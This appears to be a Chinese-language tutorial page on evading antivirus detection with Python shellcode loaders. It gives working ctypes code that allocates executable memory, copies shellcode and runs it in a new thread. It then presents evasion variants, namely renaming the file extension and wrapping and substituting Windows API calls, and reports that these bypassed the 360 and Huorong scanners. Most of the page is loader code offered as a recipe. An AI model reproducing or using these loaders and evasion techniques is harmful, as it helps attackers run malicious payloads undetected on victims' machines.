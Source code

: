 



比如下面这个Python代码加载shellcode

```Python
import ctypes

def exec_shellcode(shellcode):
    shellcode = bytearray(shellcode)
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr),buf,ctypes.c_int(len(shellcode)))
    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0), ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))
def main():
    buf =  b""
    shellcode = buf
    exec_shellcode(shellcode)
if __name__ == '__main__':
    main()
```

这些检查都是基于主动让他扫描检测的

# 绕过后缀名

用火绒的话一开始是可以检测出他是一个恶意脚本,后来不知道怎么就检测不出来了

不过修改文件后缀名是可以绕过火绒的



但是无论怎么修改后缀名都无法绕过360

![image-20230723231941978](img/image-20230723231941978.png)

# 函数封装+函数替换



```python

import ctypes

def  yy(a,b,c,d,e,f):#函数封装
    ret_value=ctypes.windll.kernel32.CreateThread(a,b,c,d,e,f)
    return ret_value

def exec_scode(scode):
    scode = bytearray(scode)
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(scode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buf = (ctypes.c_char * len(scode)).from_buffer(scode)
    ctypes.windll.kernel32.RtlCopyMemory(ctypes.c_uint64(ptr),buf,ctypes.c_int(len(scode)))#函数替换
    handle = yy(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))

def main():
    buf =  b""
    scode = buf
    exec_scode(scode)
if __name__ == '__main__':
    main()
```



竟然绕过了360+火绒

![image-20230723233538314](img/image-20230723233538314.png)